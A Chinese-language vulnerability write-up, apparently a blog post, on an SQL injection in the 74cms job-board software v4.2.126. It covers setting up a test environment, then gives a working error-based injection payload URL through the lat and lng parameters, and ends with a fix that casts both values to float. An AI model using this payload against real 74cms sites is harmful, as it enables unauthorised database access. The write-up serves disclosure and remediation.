









74cms v4.2.126-通杀sql注入
==========================

0x00 前言
=========

厂商：74cms下载地址：<http://www.74cms.com/download/index.html>

关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
======================

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为  <http://baidu.com> 即可

0x02 数据填充不然没得测试
=========================

0x02.1注册商家账号方便测试
--------------------------

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了注册完成以后将此商家用户登录前台

0x02.2注册普通账号方便测试
--------------------------

0x03 sql漏洞演示
================

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

    Payload: 
    http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a

0x04 漏洞原理
=============

16.png

说明我们的猜想是没有错的。

所以最终我们符合条件的内容都会赋值为\$this-\>params

0x05 修复方法
=============

    $this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range";

强转为浮点型，防止注入

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
